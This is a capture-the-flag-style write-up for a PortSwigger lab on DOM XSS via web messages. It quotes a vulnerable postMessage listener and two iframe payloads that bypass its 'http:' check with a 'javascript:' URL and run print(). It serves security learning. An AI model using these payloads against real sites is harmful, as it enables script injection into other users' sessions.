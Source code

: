 # DOM XSS using web messages and a JavaScript URL

## This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

javascrit code on homepage is

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var url = e.data;
      if (url.indexOf("http:") > -1 || url.indexOf("https:") > -1) {
        location.href = url;
      }
    },
    false
  );
</script>
```

to solve this lab
use below code

```html
<iframe
  src="https://YOUR-LAB-ID.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print()//http:','*')"
></iframe>
```

or

```html
<iframe
  src="https://YOUR-LAB-ID.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
></iframe>
```
